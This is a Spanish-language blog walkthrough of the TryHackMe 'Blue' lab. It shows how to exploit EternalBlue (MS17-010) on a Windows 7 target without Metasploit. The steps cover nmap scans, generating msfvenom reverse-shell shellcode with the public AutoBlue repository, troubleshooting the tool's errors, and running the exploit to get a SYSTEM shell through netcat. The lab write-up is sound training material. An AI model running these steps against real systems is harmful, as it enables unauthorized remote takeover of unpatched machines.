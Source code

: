 ```yaml
---
layout: single
title: Máquina Blue - TryHackMe (Offensive Pentesting Path) - EternalBlue sin Metasploit
excerpt: "Siguiendo con el path Offensive Pentesting de TryHackMe, ahora nos toca comprometer la máquina Blue. Esto se realizará sin ayuda de Metasploit ejecutando el exploit EternalBlue de manera <<manual>>."
date: 2022-01-29
classes: wide
header:
  teaser: /assets/images/blue/portada.gif
  teaser_home_page: true
categories:
  - THM
  - Blog
tags:
  - Blog
  - Writeup
  - Guía
  - Walkthrough
---
```


# Aclaración inicial
La máquina se encuentra en la plataforma [TryHackMe](https://tryhackme.com/room/blue). Contrario a lo que nos indica la plataforma, esta guía será un **boot2root** con el objetivo de demostrar cómo explotar una vulnerabilidad **EternalBlue** sin ayuda de Metasploit. Eso quiere decir que no llevaremos a cabo las acciones post-explotación que solicita la máquina. El único propósito del sistema es el de fungir como playground para probar dicho exploit. Si buscas completar el room en TryHackMe, te recomiendo mejor seguir con el procedimiento que te indica la plataforma (con Metasploit).

¿Por qué? Durante la explotación del EternalBlue me encontré con varios fallos y errores que logré corregir, por lo que esta guía buscará además mostrar posibles fallos de ejecución que se pudieran presentar a la hora de explotar esta vulnerabilidad y cómo arreglarlos para continuar. En una entrada posterior intentaremos realizar la post-explotación que propone TryHackMe.

# Reconocimiento
La máquina es un Windows 7 de 64 bits. Nos lo indica la misma página de TryHackMe y podemos corroborarlo con una traza **ICMP**:

![1]

Por medio de un escaneo de puertos con nmap, detectamos aquellos que se encuentren activos con un estatus **open** en la máquina víctima:

	nmap --min-rate 5000 -p- --open -Pn -n 10.10.153.51 -oN portScan

![2]

Vemos que se encuentran habilitados varios servicios de Windows como el SMB y varios puertos típicos de Windows.

Si realizamos un escaneo más exhaustivo en busca de servicios y versiones específicas de dichos puertos, nos encontramos con la siguiente información:

![3]

Siempre que nos enfrentamos a un sistema Windows 7, debemos corroborar si es que existe la posibilidad de poder explotar la vulnerabilidad **EternalBlue**. Para ello, podemos hacer uso de scripts **vuln** y **safe** en un escaneo con nmap enfocado al puerto **SMB** (445).

	nmap --script "vuln and safe" -p445 10.10.153.51 -oN vulnScan

![4]

Vemos que es vulnerable al **MS17-010**, más conocido como **EternalBlue**, por lo que procedemos a explotar esta vulnerabilidad.

# EternalBlue
Para explotar esta vulnerabilidad, podemos emplear este [repositorio](https://github.com/lokendrasinghrawat/AutoBlue-MS17-010). Lo descargamos por medio de un **git clone**.

![5]

Este exploit tiene dos fases para ejecutarlo:

1. Crear los shellcodes necesarios para Windows.
2. Ejecutar el exploit con dicho shellcode.

# Creación de los shellcodes
Aquí es donde inicia el proceso de explotación y donde podríamos encontrar varios errores. El script requiere de un shellcode que pueda ser empleado tanto para sistemas de 32 bits como de 64 bits, y para ello, el repositorio incluye una herramienta para crearlos automáticamente llamado **shell_prep.sh**. Este nos permitirá, además, añadir al shellcode nuestro reverse shell con el cual ganaremos acceso al sistema.

Para ejecutarlo, debemos ir al directorio **shellcode** y ejecutar el binario **shell_prep.sh**

	./shell_prep.sh
	
![6]

**Nota:** Como podemos observar en la imágen anterior, podríamos encontrarnos con un error que dice **"line 13: nasm: command not found"**. Si este es el caso, lo mejor es finalizar el programa con CTRL+C ya que no tiene sentido continuar. Para arreglarlo, solo debemos instalar el comando faltante:

	apt install nasm
	
![7]

Una vez instalado, volvemos a ejecutar el **shell_prep.sh** y veremos que dicho error ya no aparece; si este es el caso, podemos continuar.

![8]

Para crear los shellcodes con una reverse shell que podamos recibir con ayuda de netcat, deberemos dar los siguientes parámetros:

	- would you like to auto generate a reverse shell with msfvenom (Y/n)
	Y
	- LHOST for reverse connection:
	TU IP DONDE RECIBIRÁS LA REVERSE SHELL
	- LPORT you want x64 to listen on:
	PUERTO DONDE ESTARÁS A LA ESCUCHA
	- LPORT you want x86 to listen on:
	PUERTO DONDE ESTARAS A LA ESCUCHA (DADO QUE EL SISTEMA ES UN WINDOWS DE 64 BITS, ESTA OPCIÓN NO ES NECESARIA; SIN EMBARGO, NO PUEDE SER EL MISMO PUERTO QUE EL ANTERIOR)
	- Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
	1 (COMO ESTA GUÍA SE BASA EN NO USAR METASPLOIT, NO QUEREMOS RECIBIR UNA REVERSE SHELL CON AYUDA DE METERPRETER)
	- Type 0 to generate a staged payload or 1 to generate a stageless payload:
	1 (STAGED ES PARA UNA REVERSE SHELL RECIBIDA CON METERPRETER; PARA RECIBIRLA CON NETCAT, DEBEMOS SELECCIONAR LA STAGELESS PAYLOAD).
	
![9]

Al finalizar la generación de los shellcodes, los unirá en uno solo un script llamado **eternalblue_sc_merge.py**, sin embargo, puede dar un error al finalizar que dice: **TypeError: must be str, not bytes**. Esto se debe a que el exploit está diseñado para ser usado con Python versión 2; si nuestro sistema Linux está configurado para emplear Python versión 3 por defecto al escribir en la línea de comandos **python**, entonces nos encontraremos con este error.

![10]

Para corregirlo, debemos modificar el script **shell_prep.sh**, específicamente en la línea 96; tenemos que cambiar el comando **python** por **python2** para que al ser ejecutado, este tire por Python versión 2.

![11]

Con esta corrección, volvemos a ejecutar el script con los mismos parámetros de antes. Veremos que al finalizar no nos lanza ningún error.

![12]

Ya tenemos todo listo, ahora solo nos resta ejecutar el exploit contra la máquina. Para ello, nos dirigimos al directorio principal del repositorio y ejecutamos el siguiente comando:

	python2 eternalblue_exploit7.py 10.10.113.175 shellcode/sc_all.bin
	
Debemos cuidar de colocar **python2** para que emplee dicha versión del lenguaje, además de ver que el script seleccionado sea el que tiene una terminación **7** (ya que se trata del script creado para los sistemas Windows 7). El último parámetro es la ubicación del shellcode creado anteriormente.

![13]

Como podemos ver, nos podemos llegar a encontrar con otro error (al menos el último con el que me pude topar), diciendo que no tenemos instalada la biblioteca **impacket**. Esto es normal, dado que esta biblioteca está instalada por defecto en la versión 3 de Python, pero no en la 2. Simplemente deberemos instalarla con el siguiente comando:

	python2 -m pip install impacket
	
![14]

Ahora sí, ya con la biblioteca instalada, podemos ejecutar nuevamente el script (sin olvidar ponernos en escucha con netcat en el puerto que hayamos especificado al momento de crear los shellcodes).

Obtendremos la siguiente salida:

![15]

# Acceso al sistema
Al haber ejecutado el script, veremos que recibimos una reverse shell desde netcat; de esta forma, ya tenemos acceso al sistema y no solo eso, sino que el acceso se ha ganado como un usuario privilegiado **NT AUTHORITY/SYSTEM**.

![16]

[1]:/assets/images/blue/1.png
[2]:/assets/images/blue/2.png
[3]:/assets/images/blue/3.png
[4]:/assets/images/blue/4.png
[5]:/assets/images/blue/5.png
[6]:/assets/images/blue/6.png
[7]:/assets/images/blue/7.png
[8]:/assets/images/blue/8.png
[9]:/assets/images/blue/9.png
[10]:/assets/images/blue/10.png
[11]:/assets/images/blue/11.png
[12]:/assets/images/blue/12.png
[13]:/assets/images/blue/13.png
[14]:/assets/images/blue/14.png
[15]:/assets/images/blue/15.png
[16]:/assets/images/blue/16.png